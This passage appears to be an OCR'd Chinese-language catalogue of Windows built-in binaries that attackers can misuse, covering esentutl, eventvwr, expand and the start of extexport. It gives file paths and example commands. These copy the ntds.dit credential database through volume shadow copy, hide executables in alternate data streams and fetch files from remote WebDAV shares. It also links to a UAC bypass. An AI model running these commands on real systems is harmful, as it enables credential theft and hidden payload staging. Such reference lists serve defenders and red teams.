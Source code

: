 用于处理Microsoft联合引擎技术（JET）数据库的二进制文件

文件路径:
```
C:\Windows\System32\esentutl.exe
C:\Windows\SysWOW64\esentutl.exe
```
- 执行方式：
```
esentutl.exe /y C:\folder\sourcefile.vbs /d C:\folder\destfile.vbs /o
esentutl.exe /y /vss c:\windows\ntds\ntds.dit /d c:\folder\ntds.dit
esentutl.exe /y C:\ADS\file.exe /d c:\ADS\file.txt:file.exe /o
esentutl.exe /y C:\ADS\file.txt:file.exe /d c:\ADS\file.exe /o
esentutl.exe /y \\192.168.100.100\webdav\file.exe /d c:\ADS\file.txt:file.exe /o
esentutl.exe /y \\live.sysinternals.com\tools\adrestore.exe /d \\otherwebdavserver\webdav\adrestore.exe /o
```
- 参考资料：
```
https://twitter.com/egre55/status/985994639202283520
https://dfironthemountain.wordpress.com/2018/12/06/locked-file-access-using-esentutl-exe/
https://twitter.com/bohops/status/1094810861095534592
```
## Eventvwr.exe
- 使用说明：

在GUI窗口中显示Windows事件日志。

文件路径:
```
C:\Windows\System32\eventvwr.exe
C:\Windows\SysWOW64\eventvwr.exe
```
- 执行方式：
```
eventvwr.exe
```
- 参考资料：
```
https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/
https://github.com/enigma0x3/Misc-PowerShell-Stuff/blob/master/Invoke-EventVwrBypass.ps1
```
## Expand.exe
- 使用说明：

expand.exe是一个可执行文件，属于Microsoft Corporation开发的User Profile Hive Cleanup Service程序的一部分。 用于扩展对文件压缩的功能。

文件路径:
```
C:\Windows\System32\Expand.exe
C:\Windows\SysWOW64\Expand.exe
```
- 执行方式：
```
expand \\webdav\folder\file.bat c:\ADS\file.bat
expand c:\ADS\file1.bat c:\ADS\file2.bat
expand \\webdav\folder\file.bat c:\ADS\file.txt:file.bat
```
- 参考资料：
```
https://twitter.com/infosecn1nja/status/986628482858807297
https://twitter.com/Oddvarmoe/status/986709068759949319
```
## Extexport.exe
- 使用说明：
ExtExport.exe是可执行文件，属于Microsoft Corporation开发的Internet Explorer程序的一部分。
